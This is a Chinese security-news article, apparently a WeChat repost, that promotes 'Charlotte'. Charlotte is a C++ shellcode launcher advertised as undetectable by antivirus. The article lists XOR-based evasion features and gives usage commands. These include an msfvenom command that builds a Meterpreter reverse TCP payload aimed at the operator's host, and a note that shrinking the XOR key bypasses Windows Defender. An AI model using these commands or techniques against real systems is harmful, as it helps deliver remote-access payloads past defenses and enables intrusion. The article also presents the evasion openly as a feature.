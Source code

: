 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ajh0zgmTZbvxwU_EOXFtrg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39zDym7ziaia2miaYIhvEW6Psb7kvxY4plvCE32zLMOGZZHb5niaaiaGoQo0dHhpicTiaWoLRqLOZ7Sbgm3A/640?wx_fmt=jpeg)

关于 Charlotte
------------

Charlotte 是一款基于 C++ 实现的 Shellcode 启动器，并且完全不会被安全解决方案所检测到。

工具特性
----

截止至 2021 年 5 月 13 日之前，该工具的检测结果为 0/26；

该工具支持动态调用 Win32 API 函数；

对 Shellcode 和函数名进行异或加密；

每次运行随机化异或密钥和变量；

在 Kali Linux 上，只需运行 “apt-get install mingw-w64*” 即可；

支持随机字符串长度和异或密钥长度；

antiscan.me
-----------

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39zDym7ziaia2miaYIhvEW6PsbWYgE0YKdeCQw9bianGeCnHp6sWf2cGnHz07UxXd3ribVUfj1fia1oOEQw/640?wx_fmt=jpeg)

工具使用
----

首先，我们需要使用 git clone 命令将该项目源码克隆至本地，并使用脚本工具生成 Shellcode 文件。具体操作示例如下：

```
git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*

cd charlotte

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin

python charlotte.py

```

使用 msfvenom -p 测试以及 Cobalt Strike 原始格式 Payload
----------------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR39zDym7ziaia2miaYIhvEW6PsbnK3yIzPGO0NhyCZewn3UMp0D0rRYF3iar6TeeDWJib4sNK4F1CCpmy4w/640?wx_fmt=gif)

强化功能
----

很明显，Windows Defender 是能够检测到. DLL 代码的，但我们在 POC 中通过将 16 字节大小的异或密钥降低至 9 个字节，就可以规避检测了。

项目地址
----

Charlotte：【点击阅读原文】

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38Tm7G07JF6t0KtSAuSbyWtgFA8ywcatrPPlURJ9sDvFMNwRT0vpKpQ14qrYwN2eibp43uDENdXxgg/640?wx_fmt=gif)

![](http://mmbiz.qpic.cn/mmbiz_png/3Uce810Z1ibJ71wq8iaokyw684qmZXrhOEkB72dq4AGTwHmHQHAcuZ7DLBvSlxGyEC1U21UMgSKOxDGicUBM7icWHQ/640?wx_fmt=png&wxfrom=200) 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

  

精彩推荐

  

  

  

  

****![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib2xibAss1xbykgjtgKvut2LUribibnyiaBpicTkS10Asn4m4HgpknoH9icgqE0b0TVSGfGzs0q8sJfWiaFg/640?wx_fmt=jpeg)****

  

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39cpPZAJWAzWjEQtKT2aO8ljsMhAvRdXgZIWNnyfHYhgBDFM7574D04oob78kxeocbSAl9GzNYibzA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651125480&idx=2&sn=1af44d66d0b2e445439e99bff2c2c0db&chksm=bd1f64638a68ed75dbdf9d3f04545f80f68a6d198693361470e9163d112b8f2385ce66583754&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39sqjaLlJOnNYV4AEasAdibTzrH7PyIuE8MbnS21dOWVXNguibdAWFTQSXMxjy2GSJodYHLFhQ1ficDQ/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486112&idx=1&sn=296cf1bc4e88502ec3c5f73199949135&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39dEsdO2GpOvH87GrfzuscAMuA4JpicWAFbJtfakgMF2hheeTcSSwguAbjO45btx8ws2etnvSJlOzQ/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486070&idx=1&sn=c6957ca2d1878f316b7947b5ff990a01&chksm=ce1cf0e9f96b79fff5b27a3c146f9e8828728c33625a97366b0cae3df1853dbeda368c59177f&scene=21#wechat_redirect)

**************![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif)**************